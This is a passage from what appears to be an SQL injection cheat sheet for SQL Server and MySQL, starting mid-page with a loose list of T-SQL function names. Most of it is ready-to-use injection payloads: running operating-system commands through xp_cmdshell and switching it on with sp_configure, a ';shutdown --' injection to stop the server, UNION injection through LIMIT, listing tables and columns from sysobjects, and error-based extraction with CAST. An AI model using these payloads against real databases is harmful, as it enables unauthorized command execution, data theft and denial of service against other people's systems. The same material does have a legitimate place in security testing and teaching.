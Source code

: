 `DECLARE @result int; EXEC @result = xp_cmdshell 'dir *.exe';IF (@result = 0) SELECT 0 ELSE SELECT 1/0`

HOST_NAME()  
IS_MEMBER (Transact-SQL)  
IS_SRVROLEMEMBER (Transact-SQL)  
OPENDATASOURCE (Transact-SQL)

INSERT tbl EXEC master..xp_cmdshell OSQL /Q"DBCC SHOWCONTIG"

OPENROWSET (Transact-SQL) -  [http://msdn2.microsoft.com/en-us/library/ms190312.aspx](http://msdn2.microsoft.com/en-us/library/ms190312.aspx)

You can not use sub selects in SQL Server Insert queries.

#### SQL Injection in LIMIT (M) or ORDER (MSO)

`SELECT id, product FROM test.test t LIMIT 0,0 UNION ALL SELECT 1,'x'/*,10 ;`

If injection is in second  _limit_  you can comment it out or use in your union injection

#### Shutdown SQL Server (S)

When you really pissed off,  `';shutdown --`

### Enabling xp_cmdshell in SQL Server 2005

By default xp_cmdshell and couple of other potentially dangerous stored procedures are disabled in SQL Server 2005. If you have admin access then you can enable these.

`EXEC sp_configure 'show advanced options',1  
RECONFIGURE`

`EXEC sp_configure 'xp_cmdshell',1  
RECONFIGURE`

### Finding Database Structure in SQL Server (S)

#### Getting User defined Tables

`SELECT name FROM sysobjects WHERE xtype = 'U'`

#### Getting Column Names

`SELECT name FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'tablenameforcolumnnames')`

### Moving records (S)

-   Modify WHERE and use  **`NOT IN`**  or  **`NOT EXIST`**,  
    `... WHERE users NOT IN ('First User', 'Second User')`  
    `SELECT TOP 1 name FROM members WHERE NOT EXIST(SELECT TOP 0 name FROM members)`  _-- very good one_  
      
    
-   Using Dirty Tricks  
    `SELECT * FROM Product WHERE ID=2 AND 1=CAST((Select p.name from (SELECT (SELECT COUNT(i.id) AS rid FROM sysobjects i WHERE i.id<=o.id) AS x, name from sysobjects o) as p where p.x=3) as int`  
    `  
    Select p.name from (SELECT (SELECT COUNT(i.id) AS rid FROM sysobjects i WHERE xtype='U' and i.id<=o.id) AS x, name from sysobjects o WHERE o.xtype = 'U') as p where p.x=21`  
    